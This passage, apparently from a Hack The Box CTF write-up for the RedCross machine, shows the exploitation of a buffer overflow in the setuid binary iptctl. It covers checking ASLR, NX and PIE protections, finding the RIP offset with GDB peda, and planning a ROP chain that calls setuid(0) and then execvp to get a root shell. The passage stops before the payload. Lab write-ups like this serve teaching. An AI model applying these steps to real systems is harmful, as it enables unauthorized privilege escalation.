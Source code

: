 We will also use GDB peda as our debugger.

## Steps
* Get a copy of binary and put it on your attacker machine
* Determine protections

```bash
# check ASLR on victim machine
penelope@redcross:/dev/shm$ cat /proc/sys/kernel/randomize_va_space
2
penelope@redcross:/dev/shm$

# check PIE on gdb peda on attacker machine
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

* Find offset to `RIP`

```bash
# set breakpoints
br *interactive+73
br *interactive+73

# create pattern - 50 is more than enough since we only need
# 10 bytes to overflow
pattern_create 50

# run interactively
gdb-peda$ run -i
Starting program: /home/kali/data/practice/hack_the_box/linux/redcross/iptctl -i
Entering interactive mode
Action(allow|restrict|show): allowAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
# [...redacted....]

# find offset - get value of "saved rip" first
info frame 
pattern_offset 0x4541412941413b41

# offset is 29
```

* Since we cannot execute code on stack, we need to find a static address of gadgets we can use. These addresses will remain the same inside victim and attacker machine. I believe the reason is because PIE is not enabled on the program. We also wanted to do `setuid(0)` first before dropping to shell via `execvp` so that can gain the effective UID of root. Our payload structure will look like this. For detailed information about the payload structure, see the section below "Explaining the payload structure".
